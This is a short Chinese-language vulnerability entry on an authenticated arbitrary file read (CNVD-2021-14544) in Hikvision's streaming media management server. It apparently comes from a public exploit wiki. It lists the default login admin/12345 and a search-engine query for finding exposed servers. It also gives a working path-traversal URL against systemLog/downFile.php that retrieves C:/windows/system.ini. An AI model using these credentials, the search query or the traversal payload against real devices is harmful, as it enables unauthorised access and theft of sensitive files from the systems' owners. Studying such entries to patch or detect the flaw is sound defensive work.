 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>HIKVISION 流媒体管理服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="流媒体管理服务器"</a-checkbox></br>

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`



![img](/assets/PeiQi-Wiki/img/hiv-5.png)



POC如下，访问如下Url下载 system.ini文件



```plain
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```



![img](/assets/PeiQi-Wiki/img/hiv-6.png)



成功读取 `C:/windows/system.ini`